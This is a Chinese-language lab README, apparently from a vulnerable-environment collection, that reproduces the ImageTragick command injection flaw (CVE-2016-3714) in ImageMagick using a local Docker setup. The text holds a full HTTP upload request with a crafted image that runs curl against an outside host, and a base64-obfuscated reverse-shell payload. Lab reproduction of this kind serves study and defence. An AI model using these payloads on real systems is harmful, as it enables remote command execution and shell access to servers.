 # Imagetragick 命令执行漏洞（CVE-2016–3714）

ImageMagick是一款使用量很广的图片处理程序，很多厂商都调用了这个程序进行图片处理，包括图片的伸缩、切割、水印、格式转换等等。但近来有研究者发现，当用户传入一个包含『畸形内容』的图片的时候，就有可能触发命令注入漏洞。

参考链接：

- https://imagetragick.com
- https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html
- https://github.com/ImageTragick/PoCs

## 漏洞环境

执行如下命令启动一个包含了Imagemagick 6.9.2-10的PHP服务器：

```
docker-compose up -d
```

## 漏洞复现

访问`http://your-ip:8080/`即可查看到一个上传组件。

发送如下数据包：

```
POST / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Length: 328

------WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Disposition: form-data; name="file_upload"; filename="1.gif"
Content-Type: image/png

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "www.leavesongs.com:8889)'
pop graphic-context
------WebKitFormBoundarymdcbmdQR1sDse9Et--
```

可见，`www.leavesongs.com:8889`已经接收到http请求，说明curl命令执行成功：

![](2.png)

反弹shell POC：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ1LjMyLjQzLjQ5Lzg4ODkgMD4mMQ== | base64 -d | bash`"||id " )'
pop graphic-context
```

![](3.png)

